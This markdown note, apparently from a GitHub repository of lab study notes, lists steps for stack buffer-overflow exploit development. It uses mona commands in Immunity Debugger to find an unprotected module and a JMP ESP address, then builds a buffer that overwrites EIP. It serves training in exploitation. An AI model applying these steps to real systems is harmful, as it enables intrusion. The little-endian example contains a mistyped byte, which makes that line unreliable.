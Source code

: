 1. Find module without protections (False):
    - `!mona modules`
    - Take note of the module name (e.g. essfunc.dll)
2. Find **JMP ESP**
    - `!mona jmp -r esp -cpb "<badchars"`
    - OR
    - `!mona find -s "\xff\xe4" -m <module>`
3. Take not of **ALL** the return addresses for all JMP ESP pointers
4. `buffer=b"A" * <offset> + b"<JMP ESP return address>"`
    - 0x625011AF => \xaf\x11\x50\62 # Little Endian
5. In Immunity Debugger: set breakpoint on the JMP ESP return address (Go to address is disassembler: <JMP ESP> and press F2)
6. Crash the app again
7. EIP should now have the JMP ESP return address
8. If not, try again with other JMP ESP return addresses

